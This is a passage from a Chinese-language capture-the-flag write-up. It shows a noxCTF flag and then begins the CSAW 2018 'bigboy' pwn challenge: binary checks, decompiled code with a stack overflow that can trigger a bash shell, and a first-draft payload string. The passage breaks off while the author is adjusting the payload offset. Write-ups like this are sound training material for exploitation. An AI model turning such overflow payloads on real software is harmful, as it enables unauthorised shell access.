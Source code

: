 FLAG

```
noxCTF{M1nd_7he_Input}
```



### CSAW CTF

#### PWN—bigboy

简单的bof类型题目，先检查文件

```bash
➜  bigboy file boi 
boi: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=1537584f3b2381e1b575a67cba5fbb87878f9711, not stripped
➜  bigboy checksec boi 
[*] '/home/Ep3ius/pwn/process/CSAW2018/bigboy/boi'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

idaF5看一下程序逻辑

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  __int64 buf; // [rsp+10h] [rbp-30h]
  __int64 v5; // [rsp+18h] [rbp-28h]
  __int64 v6; // [rsp+20h] [rbp-20h]
  int v7; // [rsp+28h] [rbp-18h]
  unsigned __int64 v8; // [rsp+38h] [rbp-8h]

  v8 = __readfsqword(0x28u);
  buf = 0LL;
  v5 = 0LL;
  v6 = 0LL;
  v7 = 0;
  HIDWORD(v6) = 0xDEADBEEF;
  puts("Are you a big boiiiii??");
  read(0, &buf, 24uLL);
  if ( HIDWORD(v6) == 0xCAF3BAEE )
    run_cmd("/bin/bash");
  else
    run_cmd("/bin/date");
  return 0;
}
```

本以为构造payload = 'a'*(0x30-0x20)+p32(0xCAF3BAEE)就可以直接过if判断getshell，然而事情并没那么简单，gdb调试一下发现0xCAF3BAEE距离我们想要出现在的位置差了4
